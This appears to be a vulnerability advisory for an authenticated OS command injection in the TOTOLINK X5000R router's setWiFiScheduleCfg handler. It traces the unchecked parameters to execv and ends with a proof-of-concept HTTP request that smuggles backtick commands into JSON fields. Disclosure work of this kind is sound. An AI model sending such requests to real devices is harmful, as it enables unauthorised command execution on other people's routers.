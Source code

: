 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWiFiScheduleCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWiFiScheduleCfg` (at 0x4139DC), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `desc`, `week`, `sHour`, `sMinute`, `eHour`, `eMinute`) are passed to the `Uci_Add_List` function without any check.
![](setWiFiScheduleCfg.png)
The `Uci_Add_List` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Add_List().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 204
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/wifi_schedule.html?idx=0
Priority: u=0

{"isGuest":"0","enable":"1","desc":"test`ls>/tmp/1`","week":"1`ls>/tmp/2`","sHour":"1`ls>/tmp/3`","sMinute":"2`ls>/tmp/4`","eHour":"3`ls>/tmp/5`","eMinute":"4`ls>/tmp/6`","addEffect":"1","topicurl":"setWiFiScheduleCfg","token":"83a219174b3904555bd7ffa8e1b30653"}
```
